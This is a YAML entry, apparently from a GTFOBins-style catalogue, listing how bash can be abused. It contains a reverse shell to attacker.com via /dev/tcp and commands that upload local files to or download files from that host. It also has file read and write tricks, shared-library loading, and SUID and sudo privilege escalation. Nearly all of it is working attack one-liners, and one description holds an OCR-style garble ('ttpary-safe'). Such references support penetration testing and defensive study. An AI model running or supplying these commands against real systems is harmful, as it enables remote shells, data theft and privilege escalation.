 ```yaml
---
functions:
  shell:
    - code: bash
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
  file-upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'echo -e "POST / HTTP/0.9\n\n$(<$LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        bash -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        bash -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  file-write:
    - code: |
        export LFILE=file_to_write
        bash -c 'echo DATA > $LFILE'
    - description: This adds timestamps to the output file.
      code: |
        LFILE=file_to_write
        HISTIGNORE='history *'
        history -c
        DATA
        history -w $LFILE
  file-read:
    - description: It trims trailing newlines and it's not ttpary-safe.
      code: |
        export LFILE=file_to_read
        bash -c 'echo "$(<$LFILE)"'
    - description: The read file content is surrounded by the current history content.
      code: |
        LFILE=file_to_read
        HISTTIMEFORMAT=$'\r\e[K'
        history -r $LFILE
        history
  library-load:
    - code: bash -c 'enable -f ./lib.so x'
  suid:
    - code: "./bash -p"
  sudo:
    - code: sudo bash
---
```

